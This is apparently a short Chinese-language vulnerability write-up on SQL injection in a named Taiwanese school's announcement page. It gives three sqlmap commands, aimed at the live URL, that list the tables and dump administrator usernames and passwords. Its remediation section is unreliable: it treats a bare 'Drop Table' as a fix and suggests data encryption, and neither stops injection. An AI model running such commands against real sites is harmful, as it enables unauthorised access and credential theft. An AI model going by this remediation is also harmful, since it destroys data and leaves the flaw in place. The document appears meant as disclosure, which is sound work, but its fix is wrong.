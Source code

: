 # 管理系統可被公告id=注入sql
## 詳情:
隨便以一篇文章網址做為範例:http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843  
可以被使用sqlmap這類的工具直接進行注入，進而取得公告管理員帳號密碼  
示範(以sqlmap指令示範):
```
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --tables -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --columns -T admin -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --dump -C "username,passwd" -T admin -D maoshe
```
接者資料庫內容就被攻擊者一覽無遺了  
![sql](https://raw.githubusercontent.com/William957-web/SGGScyber/main/images/sqlinetion.png)  
這個漏洞事關重大，以下會談即如何防範。  
# 解決方法  
最消極但簡單的方法就是對後端資料加密，但是這樣無法防止資料被查看，可以使網頁保有一定安全性。  
再來，從資料庫本身做防範的話，則是使用sql內建宇法做修正:  
```sql
Drop Table
```
可以明確定義那些是管理員才可檢視的內容  
其餘的可參考網路內容(我不太會sql語法QAQ)
